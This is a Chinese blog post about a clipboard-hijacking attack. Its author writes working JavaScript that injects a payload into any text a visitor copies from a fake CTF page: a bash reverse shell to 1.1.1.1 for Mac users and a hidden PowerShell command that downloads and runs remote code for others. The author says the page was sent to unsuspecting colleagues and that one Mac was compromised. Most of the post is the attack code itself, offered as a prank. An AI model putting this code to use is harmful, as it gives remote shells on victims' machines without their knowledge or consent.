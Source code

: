 前几天浏览知乎的时候，看到了一段挺有意思的答案，然后就复制发给群友了



知乎自动在文字前面，加了一段版权信息。看到这个刚好想到了以前看到的一个反制手段，就刚好来实践一下。

![image-20210815204949828](images/image-20210815204949828.png)

通过js控制剪贴板，你以为你复制的代码，但是其实含有payload，而且window cmd中如果复制是多行命令，会自动执行。



比如

```
test
test
```



直接复制粘贴到cmd中，第一行命令会自动执行

![image-20210815205535473](images/image-20210815205535473.png)

所以当时想到把这个伪装成一个ctf题目，打开后显示

` python -c "import base64;print(base64.b64encode('aGFoYWhh'.encode()))"`



然后通过js添加事件，如果复制的话，直接在文字前面加上payload,考虑到朋友里面用mac的比较多，专门添加了针对mac的payload

```javascript
function addLink() {
    var body_element = document.body;
    var selection;
    //var selection = window.getSelection();
    selection = window.getSelection() ? window.getSelection() : document.selection.createRange().text;
    var u = navigator.userAgent, app = navigator.appVersion;
    if (u.indexOf('Mac') > -1) {
        var payload = '/bin/bash -c "bash -i >& /dev/tcp/1.1.1.1/1998 0>&1"</br>';
    } else {
        var payload = 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://1.1.1.1/a\'))'
</br>';
    }
    if (window.clipboardData) { // Internet Explorer
        var copyText = payload + selection;
        window.clipboardData.setData("Text", copyText);
        return false;
    } else {
        var copyText = payload + selection;
        var newDiv = document.createElement('div');
        newDiv.style.position = 'absolute';
        newDiv.style.left = '-99999px';
        body_element.appendChild(newDiv);
        newDiv.innerHTML = copyText;
        selection.selectAllChildren(newDiv);
        window.setTimeout(function () {
            body_element.removeChild(newDiv);
        }, 0);
    }
}
document.oncopy = addLink;
```



当时想的是，打开这个页面，想获取提示，然后把这一句Python代码复制到cmd执行，js注入payload，粘贴上线。



但是这句Python代码，效果一般。很多人直接把中间的base64字符串复制到其他网站解密了。没上线，而且payload还暴露了。



然后就改成了,这谁看谁不迷糊

`python -c "print("falg:"+b'\x01\x00\x02\x00\x09\x02')"`

![image-20210815210538040](images/image-20210815210538040.png)

如果直接复制到cmd执行，实际复制到的是

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://1.1.1.1/a'))
python -c "print("falg:"+b'\x01\x00\x02\x00\x09\x02')"
```

cmd会直接上线，其他就要看具体终端软件的实现。



然后就愉快的发给同事做题了

![image-20210815210909599](images/image-20210815210909599.png)

啪的一声，很快啊



一个mac就上线了

![image-20210815211000427](images/image-20210815211000427.png)

over~

![image-20210815211018925](images/image-20210815211018925.png)

